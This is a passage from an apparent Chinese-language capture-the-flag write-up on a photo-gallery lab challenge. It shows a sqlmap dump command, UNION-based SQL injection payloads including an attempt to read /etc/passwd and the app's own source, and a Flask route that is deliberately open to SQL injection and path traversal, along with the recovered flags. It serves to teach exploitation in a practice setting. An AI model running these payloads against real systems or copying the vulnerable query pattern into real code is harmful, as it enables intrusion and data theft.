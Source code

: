 接着爆数据

```bash
sqlmap --threads 10 -u "http://35.227.24.107/479b051cb9/fetch?id=1" -D level5 -T albums -C id,title --dump
```

看起来只有一条没什么用的数据

| id | title   |
|----|---------|
| 1  | Kittens |

接着下一个表photos爆出来的数据如下

| id | parent | title            | filename                                                         |
|----|--------|------------------|------------------------------------------------------------------|
| 1  | 1      | Utterly adorable | files/adorable.jpg                                               |
| 2  | 1      | Purrfect         | files/purrfect.jpg                                               |
| 3  | 1      | Invisible        | c46d5ba4cb81f5f75c59e560a1345c5b417b961616b8e98f48e75306a81439a6 |

看来之所以`/fetch?id=3`返回500是因为3的filename的文件不存在导致的吧。这看起来是一个64位md5，我放到cmd5上解密，没有结果。第二天早上起来我想了想，这玩意儿和flag长得也很像，于是就把他改成flag的格式

`^FLAG^c46d5ba4cb81f5f75c59e560a1345c5b417b961616b8e98f48e75306a81439a6$FLAG$`

提交发现果然是个flag。

#### flag2

距离上一个flag已经过去两天了，在过去的两天我尝试了各种办法，甚至用sqlmap把他的数据库都脱下来了，依然没有头绪。但是有几个突破口。

1. 尝试用load_file和into outfile来向文件系统读写文件，但是数据库的默认是设置secure_file_priv为null或者指定位置，并不能随意读写文件。于是放弃了。
2. 从photos表的filename可以看出，代码应该是读出filename的值然后从文件系统中读取图片内容并返回，所以`id=3`才会500。通过这点，我尝试了payload` union select '/etc/passwd'`，但是报了500。于是也放弃了。

今天看了两个hint

* Consider how you might build this system yourself. What would the query for fetch look like?
* Take a few minutes to consider the state of the union

这两个hint我感觉还是想让我从利用union读取系统文件入手。

因为之前第2关的sql注入爆出来的代码是python，我于是随手试了一下` union select 'main.py'`，果然是皇天不负有心人，直接爆出了源码，然后注释里有flag

![4-1.png](4-1.png)

#### flag3

第二个flag里爆出了服务端的代码，看起来是想我们从源码入手。

代码里唯一有用户输入的一段只有`GET /fetch`这个api，代码如下

```python
@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# ^FLAG^c9ca117fc9876a4d0b1b09a76b8c3f1136e03dce5de40222400eed4f1c90e50f$FLAG$

	return open('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()
```
